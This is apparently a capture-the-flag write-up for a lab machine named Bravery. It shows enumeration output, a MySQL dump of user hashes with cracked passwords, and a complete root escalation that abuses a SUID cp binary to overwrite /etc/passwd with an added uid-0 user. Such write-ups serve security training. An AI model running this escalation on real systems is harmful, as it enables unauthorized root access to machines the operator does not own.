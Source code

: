 # Privesc
## Normal run down
```bash
bash-4.2$ ls -al
total 0
drwxr-xr-x.  4 root  root   31 Dec 25  2018 .
dr-xr-xr-x. 18 root  root  254 Apr  3 12:01 ..
drwx------. 14 david david 279 Sep 29  2018 david
drwx------.  3 rick  rick   78 Jul 10  2018 rick

bash-4.2$ find / -uid 1000 -type f 2>/dev/null
/var/spool/mail/david
bash-4.2$ ls -al /var/spool/mail/david
-rw-rw----. 1 david mail 0 Jun 10  2018 /var/spool/mail/david
bash-4.2$ find / -uid 1004 -type f 2>/dev/null
/var/spool/mail/rick
bash-4.2$ ls -al /var/spool/mail/rick
-rw-rw----. 1 rick mail 0 Jul 10  2018 /var/spool/mail/rick
```

## linpeas.sh
1. /var/nfsshare  *(rw,sync,`no_root_squash`)
2. -rwsr-xr-x. 1 root root    152K Apr 11  2018 /usr/bin/`cp`
3. `/local.txt` - *Congratulations on obtaining a user shell. :)*

- And I think of two things:
	1. we have david's credential which can try to do su   -   nope, not working
	2. we have mysql login credential which maybe worth dig up

## mysql enum
### DB bravery
```bash
MariaDB [bravery]> select username,password from cu_users;
+-------------+----------------------------------+
| username    | password                         |
+-------------+----------------------------------+
| admin       | f49b7babc64b6bc99cb429b1dd2f10de |
| genevieve   | 57e5ee542f5d13648c5ab1e73f12140c |	genevieve
| david       | 6ccb05b8892eba2d8d5892278de39d4e |	jokesasidethisisfun
| qiu         | 16e8d1587723a4ddc28ff8117e6ad0e3 |	qiuuuuuuuuuu
| patrick     | 87e6d56ce79af90dbe07d387d3d0579e |	P@ssw0rd25
| qinyi       | 6d8c198696328b20997f26c1b504df24 |
| govindasamy | 5f4dcc3b5aa765d61d8327deb882cf99 |	password
| roland      | ee21d5f27a8401788147f6f6184ddb11 |	roland
+-------------+----------------------------------+
8 rows in set (0.01 sec)
```

### DB mysql
```bash
MariaDB [mysql]> select User,Password from user;
+------+-------------------------------------------+
| User | Password                                  |
+------+-------------------------------------------+
| root | *ED02A9E58E125F18C751D6C4E956F460C868F051 |
| root | *ED02A9E58E125F18C751D6C4E956F460C868F051 |
| root | *ED02A9E58E125F18C751D6C4E956F460C868F051 |
+------+-------------------------------------------+
3 rows in set (0.00 sec)
```

### DB test - empty set
 
 - This is back and forth stage, since we have the credentials, I go back to the cuppaCMS to test the account, and it's lucky that user genevieve is super admin.
 ![](Pasted%20image%2020210423213413.png)
 - But the CMS has nothing more, tried to su to david account by his credential not working.
 
 ## /usr/bin/cp
 - Well, I know that /usr/bin/cp could be an asset, but I never thought it's that good...
 ```bash
bash-4.2$ cp /etc/passwd /tmp/passwd
bash-4.2$ ls -al /tmp/passwd
-rw-r--r--. 1 root apache 2632 Apr 23 17:49 /tmp/passwd
bash-4.2$ cat /etc/passwd > /tmp/evil
bash-4.2$ perl -le 'print crypt("pwned", "whatever")'
whlU7j.8He1gc
bash-4.2$ echo 'evil:whlU7j.8He1gc:0:0::/root:/bin/bash' >> /tmp/evil
bash-4.2$ tail /tmp/evil
gnome-initial-setup:x:988:982::/run/gnome-initial-setup/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
avahi:x:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
ossec:x:1001:1002::/var/ossec:/sbin/nologin
ossecm:x:1002:1002::/var/ossec:/sbin/nologin
ossecr:x:1003:1002::/var/ossec:/sbin/nologin
rick:x:1004:1004::/home/rick:/bin/bash
evil:whlU7j.8He1gc:0:0::/root:/bin/bash
bash-4.2$ cp /tmp/evil /etc/passwd
bash-4.2$ su evil
Password:
ABRT has detected 1 problem(s). For more info run: abrt-cli list --since 1545797712
[root@bravery shm]# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
[root@bravery shm]# cat /root/proof.txt
Congratulations on rooting BRAVERY. :)
 ```
 
 